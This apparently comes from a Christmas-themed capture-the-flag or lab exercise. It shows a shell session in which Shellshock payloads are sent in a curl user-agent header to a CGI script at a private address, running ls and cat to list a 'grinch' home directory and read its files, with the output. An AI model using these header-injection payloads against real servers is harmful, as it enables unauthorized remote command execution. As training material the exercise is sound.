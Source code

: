 ```shell
root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /home/grinch;'" http://192.168.1.127:8080/cgi-bin/stats

XmasPresent.txt
root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /home/grinch/XmasPresent.txt;'" http://192.168.1.127:8080/cgi-bin/stats

“Maybe Christmas (he thought) doesn’t come from a store. Maybe Christmas perhaps means a little bit more.” — The Grinch
root@ubuntu8:~# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls -la /home/grinch/;'" http://192.168.1.127:8080/cgi-bin/stats

total 256
drwxr-xr-x 2 root root 4096 Dec 20 16:18 .
drwxr-xr-x 1 root root 4096 Dec 20 16:11 ..
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .akhmeade.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .antonni1.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .beranj25.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .bergmpet.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .bokarili.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .cernypat2.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .cizmama2.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .cvachmic.txt
-rw-rw-r-- 1 1000 1000  362 Dec 20 14:30 .dvoravl6.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .dzivjmat.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .elnazavr.txt
-rw-rw-r-- 1 1000 1000  360 Dec 20 14:30 .eykhmvic.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .fadeeeka.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .forstluk.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .frantjir.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .grubejak.txt
-rw-rw-r-- 1 1000 1000  360 Dec 20 14:30 .hallelau.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .hejlluka.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .hodekto1.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .hoftydom.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .hollmdit.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .horovtom.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .ilyasmar.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .jeskepet.txt
-rw-rw-r-- 1 1000 1000  360 Dec 20 14:30 .jiranto2.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .johanada.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .karafvit.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .kloucste.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .kostypet.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .koubadom.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .krulepav.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .kubelpe1.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .latypdin.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .likhatim.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .lupennik.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .mahdarad.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .marekj24.txt
-rw-rw-r-- 1 1000 1000  360 Dec 20 14:30 .mavrireg.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .musilon9.txt
-rw-rw-r-- 1 1000 1000  362 Dec 20 14:30 .novak110.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .novakmat.txt
-rw-rw-r-- 1 1000 1000  356 Dec 20 14:30 .oharatho.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .ondra.prenek.txt
-rw-rw-r-- 1 1000 1000  358 Dec 20 14:30 .repamart.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .richtja9.txt
-rw-rw-r-- 1 1000 1000  352 Dec 20 14:30 .scupamic.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .sedlifil.txt
-rw-rw-r-- 1 1000 1000  354 Dec 20 14:30 .semanja1.txt
```
